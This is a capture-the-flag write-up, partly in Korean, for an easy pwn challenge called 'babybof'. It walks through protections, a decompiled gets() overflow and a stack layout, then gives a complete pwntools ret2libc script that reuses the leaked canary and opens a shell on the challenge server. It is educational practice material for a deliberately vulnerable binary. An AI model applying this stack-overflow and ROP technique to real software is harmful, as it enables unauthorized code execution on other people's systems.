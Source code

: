 # babybof - Imaginary
## Challenge Info
- Date: 2025
- CTF Name: Imaginary
- Category: pwn
- Difficulty (subjective): easy
- Points: 100
- Provided Files: vuln(ELF)
- tools: gdb(pwndbg), checksec, pwntool
## Brief Description
welcome to pwn! hopefully you can do your first buffer overflow
## Initial Analysis
### Environment
``` sh
checksec vuln
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
### Code
``` c
undefined8 main(void) {
    long in_FS_OFFSET;
    undefined8 unaff_retaddr;
    undefined buf [56];
    long canary;

    canary = *(long *)(in_FS_OFFSET + 0x28);
    setbuf(stdin,(char *)0x0);
    setbuf(stdout,(char *)0x0);
    puts("Welcome to babybof!");
    puts("Here is some helpful info:");
    printf("system @ %p\n",system);
    printf("pop rdi; ret @ %p\n",0x4011ba);
    printf("ret @ %p\n",0x4011bb);
    printf("\"/bin/sh\" @ %p\n",sh);
    printf("canary: %p\n",canary);
    printf("enter your input (make sure your stack is aligned!): ");
    FUN_004010c0(buf); // gets(buf);
    printf("your input: %s\n",buf);
    printf("canary: %p\n",canary);
    printf("return address: %p\n",unaff_retaddr);
    if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
    }
    return 0;
}
```
카나리, PIE 등의 보호기법이 적용되어 있지만, Return 2 Libc에 필요한 정보를 제공해 준다.  
## Vulnerability
### BOF(Buffer Overflow)
``` c
FUN_004010c0(buf); // gets(buf);
```
`gets`함수 사용으로 인해, BOF 취약점이 발생한다. 
## Exploit
### Strategy
Return 2 Libc에 필요한 정보를 모두 제공하기 때문에 단순하게 payload만 작성하면 된다.  
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from RBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| canary | -0x8 |
| buf | -0x40 |
### payload
``` python
from pwn import *

p = remote('babybof.chal.imaginaryctf.org', 1337)
context.arch = "amd64"

# get info
p.recvuntil(b'system @ ')
system_addr = int(p.recvline().strip(b'\n'), 16)
log.info(f'system_addr: {hex(system_addr)}')
p.recvuntil(b'pop rdi; ret @ ')
pop_rdi_ret = int(p.recvline().strip(b'\n'), 16)
log.info(f'pop_rdi_ret: {hex(pop_rdi_ret)}')
p.recvuntil(b'ret @ ')
ret = int(p.recvline().strip(b'\n'), 16)
log.info(f'ret: {hex(ret)}')
p.recvuntil(b'\"/bin/sh\" @ ')
bin_sh = int(p.recvline().strip(b'\n'), 16)
log.info(f'bin_sh: {hex(bin_sh)}')
p.recvuntil(b'canary: ')
canary = int(p.recvline().strip(b'\n'), 16)
log.info(f'canary: {hex(canary)}')

# payload
payload = b''
payload += b'A' * 0x38 + p64(canary) + b'B' * 0x8
payload += p64(ret) + p64(pop_rdi_ret) + p64(bin_sh) + p64(system_addr)
p.sendafter(b'enter your input (make sure your stack is aligned!): ', payload)

# interactiv
p.interactive()
```